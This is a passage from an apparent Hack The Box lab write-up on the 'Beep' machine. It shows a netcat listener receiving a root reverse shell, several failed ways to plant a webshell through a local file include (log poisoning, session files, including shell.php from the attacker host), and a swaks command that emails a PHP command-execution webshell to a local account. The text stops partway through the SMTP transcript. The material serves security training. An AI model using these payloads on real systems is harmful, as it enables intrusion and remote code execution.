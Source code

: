```

root@kali# nc -lnvp 8081
listening on [any] 8081 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.10.7] 36248
bash: no job control in this shell
[root@beep webmin]# id
uid=0(root) gid=0(root)

```

## Webshell Upload [Path #5]

### Get WebShell on Beep

#### Failures

Because I have a local file include, if I can get a webshell onto the host, then I can get execution that way. I tried a bunch of things:
- Log Poisoning - I can put a PHP webshell into the User-Agent header and it’ll be logged in the `access_log`. Unfortunately, I can’t read that file via the LFI. I’ve shown this [several times before](/tags.html#log-poisoning).
- When I try to log into the Elastix web interface, it assigns a cookie, `elastixSession` that looks like `ambb7h36cmt7cngc245ilj6hp4`. Data about this session is stored at `/tmp/sess_ambb7h36cmt7cngc245ilj6hp4`, and I can access this file. Unfortunately, the files remain empty, I’m guessing until I’m able to log in. This is an attack I showed in [Unattended](/2019/08/24/htb-unattended.html#shell).
- Instead of trying to access a file on the system, I tried to access `http://10.10.14.2/shell.php`, but this failed as well.

#### Email

One way to get a file on disk is email. I’ll send an email to one of the accounts on the box, and then find it in `/var/mail/[username]`. Why not the askerisk account? `swaks` will send the email (or I could do it with `telnet` similar to the enumeration above):

```

root@kali$ swaks --to asterisk@localhost --from 0xdf@0xdf.htb --header "Subject: test shel
l" --body 'check out this code: <?php system($_REQUEST["cmd"]); ?>' --server 10.10.10.7
=== Trying 10.10.10.7:25...                                  
=== Connected to 10.10.10.7.
<-  220 beep.localdomain ESMTP Postfix
 -> EHLO parrot
<-  250-beep.localdomain                                     
<-  250-PIPELINING
<-  250-SIZE 10240000
<-  250-VRFY                                                 
<-  250-ETRN                                                 
<-  250-ENHANCEDSTATUSCODES
<-  250-8BITMIME
<-  250 DSN
 -> MAIL FROM:<0xdf@0xdf.htb>
<-  250 2.1.0 Ok
 -> RCPT TO:<asterisk@localhost>
<-  250 2.1.5 Ok
 -> DATA
<-  354 End data with <CR><LF>.<CR><LF>
 -> Date: Thu, 18 Feb 2021 15:33:00 -0500
 -> To: asterisk@localhost
 -> From: 0xdf@0xdf.htb
 -> Subject: test shell
 -> Message-Id: <20210218153300.1486384@parrot>
 -> X-Mailer: swaks v20201014.0 jetmore.org/john/code/swaks/
 -> 
```